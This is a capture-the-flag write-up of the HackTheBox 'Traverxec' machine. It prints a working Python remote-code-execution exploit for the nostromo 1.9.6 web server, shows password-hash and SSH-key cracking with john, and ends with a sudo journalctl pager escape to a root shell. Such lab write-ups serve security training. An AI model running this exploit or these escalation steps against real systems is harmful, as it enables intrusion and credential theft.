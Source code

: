 ```yaml
---
title: HackTheBox Traverxec
author: Marius Kimmina
date: 2020-04-11 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [BSD]
published: true
---
```


# 0x0 Introduction
Yet another HTB box and again one of the easier ones. This time we had to exploit a vulnerable nostromo webserver version for command execution and then escalate privileges from there.
![image](/hacks/htb/traverxec/traverxec_htb_info.png "Traverxec Logo")

# 0x1 Getting a foothold

Starting of as usual with a nmap scan I got the following result:

```
# Nmap 7.80 scan initiated Mon Feb 10 08:20:59 2020 as: nmap -sV -sC -oA nmap/nmap 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.0061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 10 08:21:11 2020 -- 1 IP address (1 host up) scanned in 12.31 seconds
```

I had never heard of nostromo before but a quick google search told me that it's an open source webserver that is common on BSD and is also called nhttpd.
When I searched for the version number I immediately found an RCE vulnerability and a python script to exploit it.

```py
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

The vulnerability here is a path traversal that allows us to reach /bin/sh
Which is also very simple to use

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "whoami"

www-data
```


# 0x2 getting the user.txt

As www-data I usually first want to look in our own directory because that's were we are most likely to have access. so thats /var/nostromo in this case.
In there I found a conf directory and was able to extract a hash from the .htpasswd file inside.

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "cat /var/nostromo/conf/.htpasswd"

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Copied the credentials over to my maschine and asked my friend john if he could tell me something about them

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ cat pwfile
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ john --wordlist=/usr/share/wordlists/rockyou.txt pwfile
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:24 DONE (2020-02-10 09:50) 0.04027g/s 426034p/s 426034c/s 426034C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have password "Nowonly4me". First thing I tested with this password was ssh of course, but sadly david did not use that as his ssh password.
Going further throught the nhttpd.conf I found the following:

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd
```

This stells us that we can use the password to authenticate at the Website, the question left to be answered is where on the Website.
looking at the Nostromo documentation I found that users get a path on the Webserver, here the relevant part of the docs:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```

so the /~david/ path did exists but didn't show us anything interesting, we need some kind of file name which we could find in /home/david/public_www/ the fiel we need is called protected-file-area (I knew the public_www existed because it said so in the nostromo config file)

The next step was to go to http://10.10.10.165/~/david/protected-file-area, there we could use the 'nowonly4me' password and we got his ssh-key which we could then again decrypt with john

```
$ python3 /usr/share/john/ssh2john.py id_rsa > johnfile
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-10 10:50) 0.3597g/s 5158Kp/s 5158Kc/s 5158KC/sa6_123..*7¡Vamos!
Session completed
```

log in with ssh
```
$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Mon Feb 10 04:51:07 2020 from 10.10.14.2
david@traverxec:~$
```


# 0x3 getting the root.txt

In davids "bin" directoy I found an interesting script

```bash
$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Here I only care about the last line "/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat" which means we can execute this journalctl command as root and if we do that, without piping it into cat, we invoke the default pager, most likely "less", as root. And inside of less we can execute "!/bin/sh" that will run as root and thus give us a root shell.

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service;
-- Logs begin at Tue 2020-02-11 01:12:26 EST, end at Tue 2020-02-11 02:02:57 EST. --
Feb 11 01:12:29 traverxec nhttpd[422]: started
Feb 11 01:12:29 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Feb 11 01:12:29 traverxec systemd[1]: Started nostromo nhttpd server.
Feb 11 02:01:17 traverxec sudo[1626]: pam_unix(sudo:auth): authentication failure; logname= uid
Feb 11 02:01:53 traverxec sudo[1626]: www-data : command not allowed ; TTY=pts/1 ; PWD=/usr/bin
!/bin/sh
# whoami
root
```
